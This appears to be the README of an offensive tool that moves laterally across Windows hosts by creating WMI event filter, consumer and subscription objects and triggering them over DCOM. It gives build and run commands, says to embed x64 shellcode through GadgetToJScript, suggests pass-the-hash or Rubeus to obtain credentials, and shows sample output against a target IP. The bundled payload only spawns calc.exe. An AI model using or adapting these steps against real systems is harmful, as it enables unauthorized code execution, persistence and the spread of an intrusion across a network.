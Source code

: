 # WMI Event Filter Lateral Movement


## Usage

Build the latest version of GadgetToJScript, x86 architecture targeting .NET version 4.x.
Use the following command to generate the VBS/JS:

```
.\GadgetToJScript.exe -w vbs -b -c inject.cs -d System.dll,System.Management.dll
```

Remember to add the x64 shellcode inside `inject.cs`.
Take the resulting `test.vbs` file and convert it to base64:

```
cat test.vbs | base64 | pbcopy
```

Remember to use UTF8 encoding.
Put the resulting base64 inside `Program.cs`, the current VBS will spawn `calc.exe`.
Build the project and execute it as follows:

```
wmi-lateral-movement.exe TARGET
```

The program will use the current user token to establish the connection, so use `make_toke`, PtH or `Rubeus` to do that.

```
wmi-event-lateral-movement.exe 172.16.119.140
[*] Event filter created.
[*] Event consumer created.
[*] Subscription created, now sleeping
[*] Sending some DCOM love..
[*] Sleeping again... long day

```

The trigger for the event is an additional logon event generated after a connection that uses DCOM over RPC.
